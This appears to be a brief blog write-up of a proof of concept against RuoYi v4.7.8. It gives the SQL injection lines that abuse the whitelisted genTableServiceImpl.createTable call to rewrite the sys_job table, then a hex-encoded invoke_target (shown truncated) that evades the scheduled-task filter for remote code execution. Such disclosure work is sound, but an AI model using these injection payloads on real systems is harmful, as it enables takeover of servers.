 ```yaml
---
title: "RuoYi-v4.7.8-RCE-POC"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:40:18+08:00
draft: false
---
```


The system had vulnerabilities in the scheduled tasks before, and now I
bypass it.


## Sqli {#sqli}

In the patch, a strategy using blacklisting and whitelisting was
employed.

{{< figure src="/ox-hugo/_20240529_145528screenshot.png" >}}

However, I managed to bypass it by using a whitelist class and
successfully carried out an SQL injection.

```java
genTableServiceImpl.createTable('SELECT 1 FROM 'Hack By 1ue';')
```

{{< figure src="/ox-hugo/_20240529_145552screenshot.png" >}}

```java
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'Hack By 1ue' WHERE job_id = 1;')
```

{{< figure src="/ox-hugo/_20240529_145610screenshot.png" >}}

success to change the data of table `job_id`


## RCE {#rce}

`JobInvokeUtil` does not allow parentheses in the string during
invocation, so I modified the parameter value of a specific job in the
original job table to hexadecimal (bypassing defense detection),
enabling another scheduled task for Remote Code Execution (RCE).

{{< figure src="/ox-hugo/_20240529_145632screenshot.png" >}}

```java
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a61... WHERE job_id = 2;')
```

{{< figure src="/ox-hugo/_20240529_145642screenshot.png" >}}

the job's invoke_target changed

{{< figure src="/ox-hugo/_20240529_145656screenshot.png" >}}

and then execute!
